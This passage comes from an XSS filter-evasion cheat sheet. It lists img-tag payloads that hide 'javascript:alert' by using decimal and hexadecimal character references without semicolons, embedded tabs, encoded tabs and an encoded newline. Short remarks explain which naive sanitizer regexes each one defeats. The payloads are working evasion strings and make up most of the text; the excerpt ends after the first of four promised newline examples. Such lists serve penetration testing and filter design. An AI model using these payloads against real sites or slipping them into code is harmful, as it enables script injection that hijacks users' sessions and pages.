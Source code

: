 ## Decimal HTML Character References Without Trailing Semicolons

This is often effective in XSS that attempts to look for "&\#XX;", since most people don't know about padding - up to 7 numeric characters total. This is also useful against people who decode against strings like $tmp_string =\~ s/.\*\\&\#(\\d+);.\*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I've seen this in the wild):

```html
<img
  src="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"
/>
```

## Hexadecimal HTML Character References Without Trailing Semicolons

This is also a viable XSS attack against the above string $tmp_string=\~ s/.\*\\&\#(\\d+);.\*/$1/; which assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters).

```html
<img
  src="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29"
/>
```

## Embedded Tab

Used to break up the cross site scripting attack:

```html
<img src="jav ascript:alert('XSS');" />
```

## Embedded Encoded Tab

Use this one to break up XSS :

```html
<img src="jav&#x09;ascript:alert('XSS');" />
```

## Embedded Newline to Break-up XSS

Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:

```html
<img src="jav&#x0A;ascript:alert('XSS');" />
```
